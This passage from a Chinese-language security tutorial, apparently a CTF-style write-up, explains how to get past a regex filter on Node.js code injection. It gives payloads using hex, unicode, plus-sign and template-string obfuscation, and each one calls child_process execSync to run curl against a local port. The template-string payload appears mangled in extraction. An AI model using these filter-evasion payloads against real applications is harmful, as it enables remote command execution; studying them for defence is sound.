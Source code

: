 这就有6种思路:
- 16进制编码
- unicode编码
- 加号拼接
- 模板字符串
- concat函数连接
- base64编码
### <a class="reference-link" name="2.1%2016%E8%BF%9B%E5%88%B6%E7%BC%96%E7%A0%81"></a>2.1 16进制编码

第一种思路是16进制编码，原因是在`nodejs`中，如果在字符串内用16进制，和这个16进制对应的ascii码的字符是等价的(第一反应有点像mysql)。

```
console.log("a"==="\x61");
// true
```

但是在上面正则匹配的时候，16进制却不会转化成字符，所以就可以绕过正则的校验。所以可以传

```
require("child_process")["exe\x63Sync"]("curl 127.0.0.1:1234")
```

### <a class="reference-link" name="2.2%20unicode%E7%BC%96%E7%A0%81"></a>2.2 unicode编码

思路跟上面是类似的，由于`JavaScript`允许直接用码点表示Unicode字符，写法是”反斜杠+u+码点”，所以我们也可以用一个字符的unicode形式来代替对应字符。

```
console.log("\u0061"==="a");
// true
require("child_process")["exe\u0063Sync"]("curl 127.0.0.1:1234")
```

### <a class="reference-link" name="2.3%20%E5%8A%A0%E5%8F%B7%E6%8B%BC%E6%8E%A5"></a>2.3 加号拼接

原理很简单，加号在js中可以用来连接字符，所以可以这样

```
require('child_process')['exe'%2b'cSync']('curl 127.0.0.1:1234')
```

### <a class="reference-link" name="2.4%20%E6%A8%A1%E6%9D%BF%E5%AD%97%E7%AC%A6%E4%B8%B2"></a>2.4 模板字符串

相关内容可以参考[MDN](https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Reference/Template_literals)，这里给出一个payload

> 模板字面量是允许嵌入表达式的字符串字面量。你可以使用多行字符串和字符串插值功能。

```
require('child_process')[`$`{``$`{``exe``}`cSync``}``]('curl 127.0.0.1:1234')
```

### <a class="reference-link" name="2.5%20concat%E8%BF%9E%E6%8E%A5"></a>2.5 concat连接
